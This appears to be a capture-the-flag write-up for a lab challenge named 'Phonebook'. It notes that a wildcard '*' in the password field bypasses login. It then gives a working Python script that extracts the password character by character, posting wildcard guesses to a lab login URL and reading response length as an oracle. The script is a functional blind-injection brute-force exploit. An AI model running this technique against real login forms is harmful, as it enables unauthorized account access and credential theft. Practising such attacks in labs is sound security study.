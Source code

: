 # Phonebook
![Screenshot from 2021-08-15 10-33-20](https://user-images.githubusercontent.com/87865134/129466125-7b06e22a-a1d8-4ab2-a513-110b8d2cf735.png)

## - Hint: 
- Username is **Reese**
- Password can use regex because enter password = * can login
![Screenshot from 2021-08-15 10-34-00](https://user-images.githubusercontent.com/87865134/129466173-e55e685d-baf4-4150-af59-3c697ecfeedd.png)

> => write script to get password

## - Script to get password:
```python
import requests

url = 'http://139.59.166.56:31421/login'

characters = ["a","b","c","d","e","f","g","h","i","j","k","l","m","n","o","p","q","r","s","t","u","v","w","x","y","z",
"A","B","C","D","E","F","G","H","I","J","K","L","M","N","O","P","Q","R","S","T","U","V","W","X","Y","Z",
"#","$","%","@","!","0","1","2","3","4","5","6","7","8","9","{","}","[","]","_","&","^"," "]

password = ''

# request ok 2586
# request fail 2214

while True:
    flag = True
    for char in characters:
        tmp = password + char + '*'
        data = {'username': 'Reese', 'password': tmp}
        res = requests.post(url, data)
        con_len = res.headers['Content-length']
        if con_len == '2586':
            print(char)
            password += char
            flag = False
            break
    if flag == True:
        break

print(password)
```
